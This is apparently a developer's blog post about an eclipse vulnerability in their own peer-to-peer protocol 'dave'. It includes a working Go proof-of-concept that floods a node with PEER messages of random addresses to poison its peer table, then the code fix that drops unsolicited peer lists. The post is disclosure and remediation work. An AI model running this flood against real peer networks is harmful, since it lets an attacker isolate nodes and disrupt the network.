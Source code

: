 ```yaml
---
title: Solving an eclipse attack vulnerability in dave
description: While improving my description of the dave protocol, I discovered an eclipse attack. Here, I implement the attack to prove that the vulnerability exists, and then resolve the vulnerability. 
date: 2024-05-29
---
```

While describing the measures that I had taken to remain resilient to different types of attacks, I thought of a significant vulnerability in the dave protocol. That just goes to show the value of communication and (internal) feedback when engineering.

I was describing how dave will drop packets containing more than GETNPEER peer descriptors. This prevents an eclipse attack where the attacker sends many peer descriptors, poisoning the remote's peer table.

While this is indeed one necessary precaution to guard against, coupled only with the packet filter the protocol sill leaves one door wide open. An attacker can simply send PEER messages within the bounds of the filter's policy. This results in the remote's peer table becoming poisoned with either random or malicious addresses.

The obvious solution, and the one that I implemented, is to only add peers if we're expecting peers. This is achieved by adding a boolean to the peer type. The flag is named `getpeer`, and is set before sending a GETPEER message, and unset when receiving a PEER message. If a PEER message is received, and the flag is not set for the remote, the packet is dropped.

# Proving existence of the vulnerability

## Implementation
The following program is an implementation of the attack. As you see, it's as simple as sending random addresses.
```go
package main

import (
	"flag"
	"fmt"
	"io"
	"math/rand"
	"net"
	"net/netip"
	"os"
	"strings"
	"time"

	"github.com/intob/godave"
	"github.com/intob/godave/dave"
)

func main() {
	laddr := flag.String("l", "[::]:2618", "Dave's listen address:port")
	edge := flag.String("e", ":127", "Dave's bootstrap address:port")
	epoch := flag.Duration("epoch", 20*time.Microsecond, "Dave epoch")
	flag.Parse()
    // Make dave with sensible settings, logging unbuffered to stdout
	d := makeDave(*laddr, *edge, 100000, 10000, 50000, *epoch, os.Stdout)
    // Send 1M random addresses to random peers
	for i := 0; i < 1000000; i++ {
		d.Send <- &dave.M{
			Op:  dave.Op_PEER,
			Pds: []*dave.Pd{pdfrom(rndaddr()), pdfrom(rndaddr())},
		}
		time.Sleep(*epoch) // Don't hit remote packet filter (we're testing with one local peer)
	}
}

// Generate random address
func rndaddr() netip.AddrPort {
	return netip.MustParseAddrPort(fmt.Sprintf("%d.%d.%d.%d:%d", rand.Intn(255), rand.Intn(255), rand.Intn(255), rand.Intn(255), rand.Intn(65535)))
}

// Parse address to Peer Descriptor
func pdfrom(addrport netip.AddrPort) *dave.Pd {
	ip := addrport.Addr().As16()
	return &dave.Pd{Ip: ip[:], Port: uint32(addrport.Port())}
}

func makeDave(lap, edge string, dcap, fcap, prune uint, epoch time.Duration, lw io.Writer) *godave.Dave {
	edges := make([]netip.AddrPort, 0)
	if edge != "" {
		if strings.HasPrefix(edge, ":") {
			edge = "[::1]" + edge
		}
		addr, err := netip.ParseAddrPort(edge)
		if err != nil {
			exit(1, "failed to parse -b=%q: %v", edge, err)
		}
		edges = append(edges, addr)
	}
	laddr, err := net.ResolveUDPAddr("udp", lap)
	if err != nil {
		exit(2, "failed to resolve UDP address: %v", err)
	}
	lch := make(chan []byte, 10)
	go func() {
		for l := range lch {
			lw.Write(l)
		}
	}()
	d, err := godave.NewDave(&godave.Cfg{
		LstnAddr:  laddr,
		Edges:     edges,
		DatCap:    dcap,
		FilterCap: fcap,
		Prune:     uint64(prune),
		Epoch:     epoch,
		Log:       lch})
	if err != nil {
		exit(3, "failed to make dave: %v", err)
	}
	return d
}

func exit(code int, msg string, args ...any) {
	fmt.Printf(msg, args...)
	os.Exit(code)
}

```
The above program starts a dave, and sends 1 million packets containing 2 random addresses.

## Result
As you can see from the following images, we were able to poison the remote with 8293 random addresses. The program then struggled to ping all of those addresses, and eventually recovered once they had been dropped. One optimisation here would be to be less tolerant of a remote taking time to respond if we've not heard from them before. This would have accelerated the dropping of bogus addresses. However, this adds complexity for only a small gain. Let's focus on the issue at hand...

### Poisoned
![poison](/img/cs/dave/eclipse/poison/3840.avif)

### Recovered
![recovered](/img/cs/dave/eclipse/poison_drop/3840.avif)

# Implementing solution
So the vulnerability is real and trivial to implement. Let's solve it. The solution is just a few lines...
Add the new boolean property, set it when pinging a peer, and check it before accepting new peers.

## Add getpeer property to peer type
```go
type peer struct {
	pd          *dave.Pd // Peer descriptor
	fp          uint64   // Address hash
	added, seen time.Time
	edge        bool    // Set for edge (bootstrap peers
	getpeer     bool    // Set when GETPEER sent, unset when PEER received. Prevents eclipse.
	trust       float64 // Accumulated mass of new dats from peer
}
```

## Set getpeer property before pinging a peer
Somewhere inside the main event loop lies this condition. Each PING epoch, we iterate over the peer table, dropping peers silent for DROP epochs, and pinging peers not heard from in PING epochs. We simply need to set our new property to true when pinging a peer.
```go
// ...
if nepoch%PING == 0 { // PING AND DROP
	for pid, p := range prs {
		if !p.edge && time.Since(p.seen) > epoch*DROP { // DROP UNRESPONSIVE PEER
			delete(prs, pid)
			lg(log, "/d/ping/delete %x\n", p.fp)
		} else if time.Since(p.seen) > epoch*PING { // SEND PING
			p.getpeer = true
			pktout <- &pkt{&dave.M{Op: dave.Op_GETPEER}, addrfrom(p.pd)}
			lg(log, "/d/ping/ping %x\n", p.fp)
		}
	}
}
// ...
```

## Check getpeer property before accepting new peers
If we're not expecting peers, we simply ignore the packet. Somewhere in the main event loop...
```go
// ...
switch m.Op {
case dave.Op_PEER: // STORE PEERS
	if p.getpeer {
			p.getpeer = false
	} else {
			lg(log, "/d/h/peer/eclipse dropped %x\n", p.fp)
			continue
	}
	for _, pd := range m.Pds {
			pid := pdstr(pd)
			_, ok := prs[pid]
			if !ok {
					p := &peer{pd: pd, fp: pdfp(h, pd), added: time.Now(), seen: time.Now()}
					prs[pid] = p
					lg(log, "/d/h/peer/add_from_gossip %x\n", p.fp)
			}
	}
// ...
}
// ...
```

# Solution demo
As you can see, any unexpected PEER messages are simply dropped.
![solution_demo](/img/cs/dave/eclipse/solution/3840.avif)